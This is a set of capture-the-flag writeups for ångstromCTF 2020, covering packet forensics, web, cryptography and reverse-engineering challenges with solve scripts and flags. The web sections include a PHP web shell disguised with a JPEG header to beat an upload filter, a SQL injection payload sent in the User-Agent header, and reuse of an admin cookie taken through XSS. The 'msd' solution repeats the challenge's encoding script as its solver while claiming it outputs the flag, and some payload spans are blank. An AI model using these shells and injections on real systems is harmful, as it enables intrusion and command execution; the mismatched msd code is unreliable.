


Writeups for some ångstromCTF 2020 challenges I did,

- misc
    - [ws1](#ws1)
    - [ws2](#ws1)
    - [ws3](#ws3)
    - [clam clam clam](#clam-clam-clam)
    - [Inputter](#inputter)
    - [msd](#msd)
    - [Shifter](#shifter)
- web
    - [The Magic Word](#the-magic-word)
    - [Xmas Still Stands](#xmas-still-stands)
    - [Consolation](#consolation)
    - [Git Good](#git-good)
    - [Secret Agents](#secret-agents)
    - [Defund's Crypt](#defunds-crypt)
- crypto
    - [Keysar](#keysar)
    - [Reasonably Strong Algorithm](#reasonably-strong-algorithm)
    - [Wacko Images](#wacko-images)
    - [Confused Streaming](#confused-streaming)
    - [one time bad](#one-time-bad)
    - [Discrete Superlog](#discrete-superlog)
- rev
    - [Califrobnication](#califrobnication)

---

# ws1 <a name="ws1"></a>

## misc (30pts)

> Find my password from [this recording](./assets/ws1.pcapng) (:
>
> Author: JoshDaBosh

### Solution

```
$ strings ws1.pcapng | grep actf
flagz,actf{wireshark_isn't_so_bad_huh-a9d8g99ikdf})
flag=actf%7Bwireshark_isn%27t_so_bad_huh-a9d8g99ikdf%7D
```

---

# ws2 <a name="ws2"></a>

## misc (80pts)

> No ascii, not problem :)
>
> [ws2.pcapng](./assets/ws2.pcapng)
>
> Author: JoshDaBosh

### Solution

Looking through the packet capture with tshark we see a HTTP POST request containing an image. Use tshark to extract the image:

```bash
$ tshark -r ws2.pcapng --export-objects "http,out"
```

Which will create a directory containing HTTP data, which has the flag image:


---

# ws3 <a name="ws3"></a>

## misc (180pts)

> What the... [ws3.pcapng](./assets/ws3.pcapng)
> 
> Author: JoshDaBosh

### Solution

Export all HTTP objects and run `binwalk` on everything. Look through a couple of files and eventually stumble across the flag image:


---

# clam clam clam <a name="clam-clam-clam"></a>

## misc (70pts)

> clam clam clam clam clam clam clam clam clam `nc misc.2020.chall.actf.co 20204` clam clam clam clam clam clam
>
> Author: aplet123

### Solution

When we connect to the service, we are flooded with lines containing `clam{clam_clam_clam_clam_clam}` and `malc{malc_malc_malc_malc_malc}`. If we instead pipe this output to `sed` and filter out these two junk lines, we get something like this:

```bash
$ nc misc.2020.chall.actf.co 20204 | sed 's/\(clam{clam_clam_clam_clam_clam}\|malc{malc_malc_malc_malc_malc}\)//g'


type "clamclam" for salvation


^C
```

To get the flag, we send the string `"clamclam"` to the service:

```bash
$ echo clamclam | nc misc.2020.chall.actf.co 20204
actf{cl4m_is_my_f4v0rite_ctfer_in_th3_w0rld}
```

---

# Inputter <a name="inputter"></a>

## misc (100pts)

> Clam really likes challenging himself. When he learned about all these weird unprintable ASCII characters he just HAD to put it in [a challenge](./assets/inputter). Can you satisfy his knack for strange and hard-to-input characters? [Source](./assets/inputter.c).
> 
> Find it on the shell server at `/problems/2020/inputter/`.
> 
> Author: aplet123

`inputter.c`:

```C
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

#define FLAGSIZE 128

void print_flag() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    FILE *file = fopen("flag.txt", "r");
    char flag[FLAGSIZE];
    if (file == NULL) {
        printf("Cannot read flag file.\n");
        exit(1);
    }
    fgets(flag, FLAGSIZE, file);
    printf("%s", flag);
}

int main(int argc, char* argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    if (argc != 2) {
        puts("Your argument count isn't right.");
        return 1;
    }
    if (strcmp(argv[1], " \n'\"\x07")) {
        puts("Your argument isn't right.");
        return 1;
    }
    char buf[128];
    fgets(buf, 128, stdin);
    if (strcmp(buf, "\x00\x01\x02\x03\n")) {
        puts("Your input isn't right.");
        return 1;
    }
    puts("You seem to know what you're doing.");
    print_flag();
```

### Solution

The goal is to run the program with some weird bytes as its argument and write some more weird bytes to the program's stdin. We can do this easily with Python (on the shell server):

```bash
$ python -c "print(' \n\'\"\x07')" > ~/arg && python -c "print('\x00\x01\x02\x03\n')" | ./inputter  "$(< ~/arg)"
You seem to know what you're doing.
actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}
```

---

# msd <a name="msd"></a>

## misc (140pts)

> You thought Angstrom would have a stereotypical LSB challenge... You were wrong! To spice it up, we're now using the [Most Significant Digit](./assets/msd.py). Can you still power through it?
>
> Here's the [encoded image](./assets/msd-enc.png_), and here's the [original image](./assets/msd-orig.jpg_), for the... well, you'll see.
>
> Important: Redownload the image if you have one from before 11:30 AM 3/14/20.
> Important: Don't use Python 3.8, use an older version of Python 3!
>
> Author: JoshDaBosh

`msd.py`:

```python
from PIL import Image

im = Image.open('breathe.jpg')
im2 = Image.open("breathe.jpg")

width, height = im.size

flag = "REDACT"
flag = ''.join([str(ord(i)) for i in flag])


def encode(i, d):
    i = list(str(i))
    i[0] = d

    return int(''.join(i))
    

c = 0

for j in range(height):
    for i in range(width):
        data = []
        for a in im.getpixel((i,j)):
            data.append(encode(a, flag[c % len(flag)]))

            c+=1

        im.putpixel((i,j), tuple(data))
        
im.save("output.png")
pixels = im.load()
```

### Solution

The provided script takes an input image and replaces the most significant digit of each rgb component of each pixel with a digit from the ascii representation of the flag. We are given the original image so we can be sure when the flag digit is `0`. Since rgb is in the range `[0,255]` there is a bit of uncertainty when the original image's pixel component is 3 digits and changing the first digit causes the number to be greater than 255 (as in, we don't know what the new digit would have been). This is fine however, as it is dependent on the original image and the flag is repeated throughout the image so we can use different areas which don't have this problem.

```python
from PIL import Image

im = Image.open('breathe.jpg')
im2 = Image.open("breathe.jpg")

width, height = im.size

flag = "REDACT"
flag = ''.join([str(ord(i)) for i in flag])


def encode(i, d):
    i = list(str(i))
    i[0] = d

    return int(''.join(i))
    

c = 0

for j in range(height):
    for i in range(width):
        data = []
        for a in im.getpixel((i,j)):
            data.append(encode(a, flag[c % len(flag)]))

            c+=1

        im.putpixel((i,j), tuple(data))
        
im.save("output.png")
pixels = im.load()
```

```bash
$ python solve.py
actf{inhale_exhale_ezpz-12309biggyhaby}
```

---

# Shifter <a name="shifter"></a>

## misc (160pts)

> What a strange challenge...
>
> It'll be no problem for you, of course!
>
> `nc misc.2020.chall.actf.co 20300`
>
> Author: JoshDaBosh

### Solution

```
$ nc misc.2020.chall.actf.co 20300
Solve 50 of these epic problems in a row to prove you are a master crypto man like Aplet123!
You'll be given a number n and also a plaintext p.
Caesar shift `p` with the nth Fibonacci number.
n < 50, p is completely uppercase and alphabetic, len(p) < 50
You have 60 seconds!
--------------------
Shift ZOPNZLWUTAXKQNZFECHDXZJNIAHYLHLBXZIG by n=11
: 
```

We have to connect to the service and solve 50 of these kinds of caesar shift problems. This is basically just a scripting/implementation challenge:

```python
from pwn import *
from math import sqrt

def fib(n):
    return int(((1+sqrt(5))**n-(1-sqrt(5))**n)/(2**n*sqrt(5)))

fibb = [fib(i)%26 for i in range(51)]

def F(n):
    return fibb[n]

def shift(s, n):
    return ''.join(chr(65+(ord(a)-65+F(n))%26) for a in s)

def parse(l):
    return l.split(b' ')[1], int(l.split(b' ')[-1].split(b'=')[1])

conn = remote('misc.2020.chall.actf.co', 20300)

i = 0
conn.recvuntil(b'--------------------\n')
while i < 50:
    l = conn.recvline()
    s, n = parse(l.replace(b': ', b'').strip())
    guess = shift(s.decode(), n).encode()
    conn.sendline(guess)
    i += 1
print(conn.recvline().decode())
```

```bash
$ python solve.py
: actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}
```

---

# The Magic Word <a name="the-magic-word"></a>

## web (20pts)

> [Ask and you shall receive](https://magicword.2020.chall.actf.co/)...that is as long as you use the magic word.
>
> Author: aplet123

### Solution

HTML source shows:

```html
<script>
    var msg = document.getElementById("magic");
    setInterval(function() {
        if (magic.innerText == "please give flag") {
            fetch("/flag?msg=" + encodeURIComponent(msg.innerText))
                .then(res => res.text())
                .then(txt => magic.innerText = txt.split``.map(v => String.fromCharCode(v.charCodeAt(0) ^ 0xf)).join``);
        }
    }, 1000);
</script>
```

Changing the element's text with id `"magic"` to `"please give flag"` gives the flag: `actf{1nsp3c7_3l3m3nt_is_y0ur_b3st_fri3nd}`

---

# Xmas Still Stands <a name="xmas-still-stands"></a>

## web (50pts)

> You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?
> 
> Author: aplet123

### Solution

Standard XSS challenge with post functionality and some sort of "report to admin" functionality. The post feature doesn't filter `` tags so we can use that in our payload. Posting something like `` and reporting that post to admins gives us the admin cookie: `super_secret_admin_cookie=hello_yes_i_am_admin`. Visit the admin page with this cookie to get the flag:

```bash
$ http https://xmas.2020.chall.actf.co/admin Cookie:super_secret_admin_cookie=hello_yes_i_am_admin | grep actf

        <p>Oh hey admin! The flag is actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}.</p>
```

---

# Consolation <a name="consolation"></a>

## web (50pts)

> I've been feeling down lately... [Cheer me up](https://consolation.2020.chall.actf.co/)!
>
> Author: JoshDaBosh

### Solution

The website is quite minimal; it contins only a button that says "pay me some money" and a bit of text representing some amount of money. The money increases by $25 every time the button is clicked. If we look at the source code we see that the button's `onclick` function is the `nofret` function. The JavaScript for the page is obfuscated but looking at the console (hinted by the title) we see that the console gets cleared when we click the button. If we execute some JavaScript `while(1) { nofret() }` in the console calling the `nofret` function many times, we can see the flag is printed to the console and cleared very shortly after that:



---

# Git Good <a name="git-good"></a>

## web (70pts)

> Did you know that angstrom has a git repo for all the challenges? I noticed that clam committed [a very work in progress challenge](https://gitgood.2020.chall.actf.co/) so I thought it was worth sharing.
>
> Author: aplet123

### Solution

The title hints at an exposed `.git`, so we try running [`git-dump`](https://github.com/bahamas10/node-git-dump.git):

```bash
$ git-dump https://gitgood.2020.chall.actf.co/.git
> GET https://gitgood.2020.chall.actf.co/.git/HEAD --> HEAD
> GET https://gitgood.2020.chall.actf.co/.git/description --> description
...
```

Then running `git log --oneline` we see:

```bash
$ git log
* e975d67 (HEAD -> master) Initial commit
* 6b3c94c haha I lied this is the actual initial commit
```

If we checkout to commit `6b3c94c` and run `ls` in the directory, we see the `thisistheflag.txt` file:

```bash
$ git checkout 6b3c94c
...
...
HEAD is now at 6b3c94c haha I lied this is the actual initial commit
$ ls
thisistheflag.txt
$ cat thisistheflag.txt
actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}

btw this isn't the actual git server
```

---

# Secret Agents <a name="secret-agents"></a>

## web (110pts)

> Can you enter [the secret agent portal](https://agents.2020.chall.actf.co/)? I've heard someone has a flag :eyes:
>
> Our insider leaked [the source](./assets/secret-agents-app.py), but was "terminated" shortly thereafter...
>
> Author: JoshDaBosh

`secret-agents-app.py`:

```python
from flask import Flask, render_template, request

from .secret import host, user, passwd, dbname

import mysql.connector

dbconfig = {
	"host":host,
	"user":user,
	"passwd":passwd,
	"database":dbname
}

app = Flask(__name__)

@app.route("/")
def index():
	return render_template("index.html")


@app.route("/login")
def login():
	u = request.headers.get("User-Agent")

	conn = mysql.connector.connect(pool_name="poolofagents",
					pool_size=16,
					**dbconfig)

	cursor = conn.cursor()

	for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			conn.close()
			break

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```

### Solution

The website's `/login` route is vulnerable to basic SQLi via the User-Agent header. If we try with the standard `' or 1=1#` payload, we are told that there are many secret agents (and no flag is found). We can limit the results to just 1 row using the `limit` keyword in SQL. We can then go through each record to find the flag. Trial and error shows that the flag record is at an offset of 2:

```bash
$ http https://agents.2020.chall.actf.co/login "User-Agent:' or 1=1 limit 1 offset 2#" | grep actf
	<p>Welcome, actf{nyoom_1_4m_sp33d}</p>
```

---

# Defund's Crypt <a name="defunds-crypt"></a>

## web (120pts)

> One year since defund's descent. One crypt. One void to fill. Clam must do it, [and so must you](https://crypt.2020.chall.actf.co/).
> 
> Author: aplet123

### Solution

The page is rather minimal and its only functionality is a button to upload some image file. If we try uploading a file that doesn't have `.jpg` in it, or doesn't start with the JPEG file header, we get an error message. However, we can easily upload a PHP shell and include the JPEG header at the start of the file, and name the file `shell.jpg.php`.

`shell.jpg.php`:

```php
<jpeg file header>

<?php echo shell_exec($_GET['cmd']); ?>
```

Uploading this file and navigating to it on the server with the query parameter `?cmd=cat /flag.txt` gives us the flag: `actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins}`

---

# Keysar <a name="keysar"></a>

## crypto (40pts)

> Hey! My friend sent me a message... He said encrypted it with the key ANGSTROMCTF.
>
> He mumbled what cipher he used, but I think I have a clue.
>
> Gotta go though, I have history homework!!
>
> agqr{yue_stdcgciup_padas}
>
> Author: joshdabosh

### Solution

Use http://rumkin.com/tools/cipher/caesar-keyed.php



---

# Reasonably Strong Algorithm <a name="reasonably-strong-algorithm"></a>

## crypto (70pts)

> [RSA](./assets/rsa.txt) strikes again!
>
> Author: lamchcl

`rsa.txt`:

```
n = 126390312099294739294606157407778835887
e = 65537
c = 13612260682947644362892911986815626931
```

### Solution

Get the factors for `n` (e.g. using FactorDB), then proceed with textbook RSA decryption:

```python
from Crypto.Util.number import long_to_bytes, inverse
p = 9336949138571181619
q = 13536574980062068373
n = 126390312099294739294606157407778835887
e = 65537
c = 13612260682947644362892911986815626931

d = inverse(e, (p-1)*(q-1))
print(long_to_bytes(pow(c, d, n)).decode())
```

```bash
$ python solve.py
actf{10minutes}
```

---

# Wacko Images <a name="wacko-images"></a>

## crypto (90pts)

> How to make hiding stuff a e s t h e t i c? And can you make it normal again? [wacko-images-enc.png](./assets/wacko-images-enc.png_) [wacko-images-enc.py](./assets/wacko-images-enc.py)
> 
> Author: floorthfloor

`wacko-images-enc.py`:

```python
from numpy import *
from PIL import Image

flag = Image.open(r"flag.png")
img = array(flag)

key = [41, 37, 23]

a, b, c = img.shape

for x in range (0, a):
    for y in range (0, b):
        pixel = img[x, y]
        for i in range(0,3):
            pixel[i] = pixel[i] * key[i] % 251
        img[x][y] = pixel

enc = Image.fromarray(img)
enc.save('enc.png')
```

### Solution

Each rgb component in each pixel in the original image has been transformed by some reversible function. We can essentially copy and paste the encryption and change one operation to get the original image:

```python
from PIL import Image
from Crypto.Util.number import inverse

img = Image.open('enc.png')

key = [41, 37, 23]

for x in range(500):
    for y in range(200):
        pixel = list(img.getpixel((x, y)))
        for i in range(3):
            pixel[i] = pixel[i] * inverse(key[i], 251)
        img.putpixel((x, y), tuple(pixel))

img.save('flag.png')
```


---

# Confused Streaming <a name="confused-streaming"></a>

> I made a [stream cipher](./assets/confused-streaming.py)!
>
> `nc crypto.2020.chall.actf.co 20601`
>
> Author: lamchcl

`confused-streaming.py`:

```python
from __future__ import print_function
import random,os,sys,binascii
from decimal import *
try:
	input = raw_input
except:
	pass
getcontext().prec = 1000
def keystream(key):
	random.seed(int(os.environ["seed"]))
	e = random.randint(100,1000)
	while 1:
		d = random.randint(1,100)
		ret = Decimal('0.'+str(key ** e).split('.')[-1])
		for i in range(d):
			ret*=2
		yield int((ret//1)%2)
		e+=1
try:
	a = int(input("a: "))
	b = int(input("b: "))
	c = int(input("c: "))
	# remove those pesky imaginary numbers, rationals, zeroes, integers, big numbers, etc
	if b*b < 4*a*c or a==0 or b==0 or c==0 or Decimal(b*b-4*a*c).sqrt().to_integral_value()**2==b*b-4*a*c or abs(a)>1000 or abs(b)>1000 or abs(c)>1000:
		raise Exception()
	key = (Decimal(b*b-4*a*c).sqrt() - Decimal(b))/Decimal(a*2)
except:
	print("bad key")
else:
	flag = binascii.hexlify(os.environ["flag"].encode())
	flag = bin(int(flag,16))[2:].zfill(len(flag)*4)
	ret = ""
	k = keystream(key)
	for i in flag:
		ret += str(next(k)^int(i))
	print(ret)
```

### Solution

The service asks the user for three numbers `a`, `b` and `c` which will be used to generate the key for the stream cipher. Specifically, the key that will be used is the largest solution to the equation $ax^2 + bx + c = 0$. There are a couple of constraints on the values of `a`, `b` and `c` to ensure that the key exists.

Taking a look at the `keystream` function, we see that for the generation of each bit in the keystream, the variable `ret` is set to the fractional part of `key ** e` and is then multiplied by `2 ** d` for some `e` and `d` where `e > d`. Then, `ret` is truncated to its next lowest integer, and this value mod 2 is yielded. We see that if we generate a key that is between `0` and `1`, `key ** e` will be very small and `(key ** e) * (2 ** d)` will still be less than `1`. Therefore, truncating will result in the value being `0`, so the entire keystream will be `0` and the server will simply return the flag in binary.

```bash
$ nc crypto.2020.chall.actf.co 20601
a: 500
b: -500
c: 100
01100001011000110111010001100110011110110110010001101111011101110110111001011111011101000110111101011111011101000110100001100101010111110110010001100101011000110110100101101101011000010110110001111101
```

```python
>>> from Crypto.Util.number import *
>>> long_to_bytes(int('01100001011000110111010001100110011110110110010001101111011101110110111001011111011101000110111101011111011101000110100001100101010111110110010001100101011000110110100101101101011000010110110001111101',2))
b'actf{down_to_the_decimal}'
```

---

# one time bad <a name="one-time-bad"></a>

## crypto (100pts)

> My super secure service is available now!

> Heck, even with [the source](./assets/one-time-bad-server.py), I bet you won't figure it out.
> 
> `nc misc.2020.chall.actf.co 20301`
> 
> Author: JoshDaBosh

```python
import random, time
import string
import base64
import os

def otp(a, b):
	r = ""
	for i, j in zip(a, b):
		r += chr(ord(i) ^ ord(j))
	return r


def genSample():
	p = ''.join([string.ascii_letters[random.randint(0, len(string.ascii_letters)-1)] for _ in range(random.randint(1, 30))])
	k = ''.join([string.ascii_letters[random.randint(0, len(string.ascii_letters)-1)] for _ in range(len(p))])

	x = otp(p, k)

	return x, p, k

random.seed(int(time.time()))

print("Welcome to my one time pad service!\nIt's so unbreakable that *if* you do manage to decrypt my text, I'll give you a flag!")
print("You will be given the ciphertext and key for samples, and the ciphertext for when you try to decrypt. All will be given in base 64, but when you enter your answer, give it in ASCII.")
print("Enter:")
print("\t1) Request sample")
print("\t2) Try your luck at decrypting something!")

while True:
	choice = int(input("> "))
	if choice == 1:
		x, p, k = genSample()
		print(base64.b64encode(x.encode()).decode(), "with key", base64.b64encode(k.encode()).decode())

	elif choice == 2:
		x, p, k = genSample()
		print(base64.b64encode(x.encode()).decode())
		a = input("Your answer: ").strip()
		if a == p:
			print(os.environ.get("FLAG"))
			break

		else:
			print("Wrong! The correct answer was", p, "with key", k)

```

### Solution

The server generates the one time pad plaintext and key with Python's `random` module, seeded with the current time. We see that the service kindly gives us the option to get a sample ciphertext and key, which we can use to bruteforce the seed:

```python
from pwn import *
from base64 import b64decode, b64encode
import random, time
import string

def otp(a, b):
	r = ""
	for i, j in zip(a, b):
		r += chr(ord(i) ^ ord(j))
	return r


def genSample():
	p = ''.join([string.ascii_letters[random.randint(0, len(string.ascii_letters)-1)] for _ in range(random.randint(1, 30))])
	k = ''.join([string.ascii_letters[random.randint(0, len(string.ascii_letters)-1)] for _ in range(len(p))])

	x = otp(p, k)

	return x, p, k

conn = remote('misc.2020.chall.actf.co', 20301)

[conn.recvline() for _ in range(6)]
conn.sendline(b'1')
sample = conn.recvline().decode()[2:]

x, k = sample.split(' with key ')

for t in range(int(time.time())-20, int(time.time())+20):
    random.seed(t)
    X, P, K = genSample()
    if b64encode(X.encode()).decode() == x:
        print('seed found:', t)
        conn.sendline(b'2')
        conn.recvline()
        X, P, K = genSample()
        print('guessing', b64encode(P.encode()).decode(), 'with key', b64encode(K.encode()).decode())
        conn.sendline(P.encode())
        print(conn.recvline().decode())
```

```bash
$ python solve.py 
seed found: 1584618388
guessing a3lBVktKWk1I with key V1dBZHdxZ0dm
Your answer: actf{one_time_pad_more_like_i_dont_like_crypto-1982309}
```

---

# Discrete Superlog <a name="discrete-superlog"></a>

## crypto (130pts)

> You've heard of discrete log...now get ready for the discrete superlog.
>
> `nc crypto.2020.chall.actf.co 20603`
>
> Author: lamchcl

### Solution

Connecting to the service, we are presented with some math challenge:

```bash
$ nc crypto.2020.chall.actf.co 20603
We define a^^b to be such that a^^0 = 1 and a^^b = a^(a^^(b-1)), where x^y represents x to the power of y.
Given this, find a positive integer x such that a^^x = b mod p.
Generating challenge 1 of 10...
p = 593144775667154241329
a = 374902470574897502800
b = 61825254601642549057
Enter x: 
```

The operation being described is known as [tetration](https://en.wikipedia.org/wiki/Tetration). It is defined as:

$$
L(a, b) = \begin{cases} 1, & b = 0 \\ a^{L(a, b-1)}, & b > 0 \end{cases}
$$

So essentially,

$$
\underbrace{a^{a^{a^{\ldots}}}}_\text{b a's} = a^T
$$

where $T = \underbrace{a^{a^{a^{\ldots}}}}_\text{(b-1) a's}$

From [Euler's Theorem](https://en.wikipedia.org/wiki/Euler%27s_theorem) we know that

$$
x \equiv y \pmod{\varphi(n)} \implies a^x \equiv a^y \pmod{n}
$$

when $a$ and $n$ are [coprime](https://en.wikipedia.org/wiki/Coprime_integers).

We see that

$$
\underbrace{a^{a^{a^{\ldots}}}}_\text{b a's} \equiv a^{T \mod \varphi(n)}\pmod{n}
$$

where $T = \underbrace{a^{a^{a^{\ldots}}}}_\text{(b-1) a's}$

And we continue this process recursively until we hit the base case of $b = 0$ (or $b = 1$, in which the result is simply $a \mod n$)

Thus, we can reduce the problem to integer factorisation (to find $\varphi(n)$), which will be feasible given the numbers in the challenge are relatively small. This is because if we have the prime factorisation of $n$ we can easily compute the [totient](https://en.wikipedia.org/wiki/Euler%27s_totient_function) $\varphi(n)$ using the following properties:

For any integer $n$:
- If $n$ is prime, then $\varphi(n) = (n-1)$
- If $n = p^k$ where $p$ is a prime and $k > 1$ is some integer, then $\varphi(n) = (p^k - p^{k-1})$
- If $n = pq$ where $gcd(p,q) = 1$, then $\varphi(n) = \varphi(p)\varphi(q)$

I use [GNU's factor program](https://www.gnu.org/software/coreutils/manual/html_node/factor-invocation.html) to factorise integers.

Solution script:

```python
from pwn import remote
from math import gcd, log2
from collections import defaultdict
import subprocess
from Crypto.Util.number import inverse, isPrime

def factorise(p):
    output = subprocess.check_output('factor ' + str(p), shell=True)
    F = defaultdict(int)
    for x in output.split()[1:]:
        F[int(x)] += 1
    return F

def phi(p):
    if p == 1:
        return 1
    if isPrime(p):
        return p-1
    factors = factorise(p)
    s = 1
    for f in factors:
        if factors[f] == 1:
            s *= (f-1)
        else:
            s *= (pow(f, factors[f]) - pow(f, factors[f] - 1))
    return s

def modtet(a, b, p):
    if b == 0: return 1
    if b == 1: return a % p
    t = phi(p)
    return pow(a, modtet(a, b-1, t), p)

def solve(a, b, p):
    for i in range(100):
        if b == modtet(a, i, p):
            return i

conn = remote('3.228.7.55', 20603)
conn.recvline()
conn.recvline()
for i in range(10):
    conn.recvline()
    p = int(conn.recvline().decode().split(' = ')[1])
    a = int(conn.recvline().decode().split(' = ')[1])
    b = int(conn.recvline().decode().split(' = ')[1])
    print('solving challenge', i)
    ans = str(solve(a, b, p))
    print('answer:', ans)
    conn.sendline(ans)
    conn.recvline()
print(conn.recvline().decode())
```

Flag: `actf{lets_stick_to_discrete_log_for_now...}`

---

# Califrobnication <a name="califrobnication"></a>

## rev (120pts)

> *It's the edge of the world and all of western civilization. The sun may rise in the East at least it's settled in a final location. It's understood that Hollywood sells [Califrobnication](./assets/califrobnication).*
>
> You get [source](./assets/califrobnication.c) for this one. Find the flag at `/problems/2020/califrobnication` on the shell server.
>
> Author: kmh11

`califrobnication.c`:

```C
#include <stdio.h>
#include <string.h>

int main() {
	FILE *f;
	char flag[50];
	f = fopen("flag.txt", "r");
	fread(flag, 50, 1, f);
	strtok(flag, "\n");
	memfrob(&flag, strlen(flag));
	strfry(&flag);
	printf("Here's your encrypted flag: %s\n", &flag);
}
```

### Solution

`memfrob` takes a string and transforms it by XORing each byte by `42`. This is easily reversible. `strfry` is another standard library function that randomly anagrams its input string. If we see the version of libc being used we can check against the source code for `strfry`:

```C
char *
strfry (char *string)
{
  static int init;
  static struct random_data rdata;
  size_t len, i;

  if (!init)
    {
      static char state[32];
      rdata.state = NULL;
      __initstate_r (time ((time_t *) NULL), state, sizeof (state), &rdata);
      init = 1;
    }

  len = strlen (string);
  for (i = 0; i < len; ++i)
    {
      int32_t j;
      char c;

      __random_r (&rdata, &j);
      j %= len;

      c = string[i];
      string[i] = string[j];
      string[j] = c;
    }

  return string;
}
```

We see that the current time is being used as a seed for the random number generator used to anagram the string. We can easily bruteforce this around the time we run the program and write a function to reverse the `strfry` function:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *
unstirfry (char *string, unsigned int t)
{
  static int init;
  static struct random_data rdata;
  size_t len;
  int i;
  int32_t j;
  if (!init)
    {
      static char state[32];
      rdata.state = NULL;
      initstate_r (t, state, sizeof (state), &rdata);
      init = 1;
    }
  len = strlen (string);
  int J[len];
  for(i = 0; i < len; i++) {
      random_r (&rdata, &j);
      J[i] = j;
  }
  for(i = len-1; i >= 0; i--) {
      char c;
      j = J[i];
      /* j = j % (len - i) + i; */
      j %= len;
      c = string[i];
      string[i] = string[j];
      string[j] = c;
    }
  return string;
}

#define BASE_TIME 1584367943

int main(int argc, char* argv[]) {
    char flag[50] = "i06nnetrf8iaom1l_9b5oti_ccd5fa42aorcc{a4_add}1ff";
    unstirfry(flag, (BASE_TIME-atoi(argv[1])));
    printf("%s\n", flag);
    return 0;
}
```

Running this program with arguments ranging from `-10000` to `10000` for good measure:

```bash
$ for i in `seq -10000 1 10000`; do
    ./solve $i |grep actf  
  done
actf{dream_of_califrobnication_1f6d458091cad254}
```
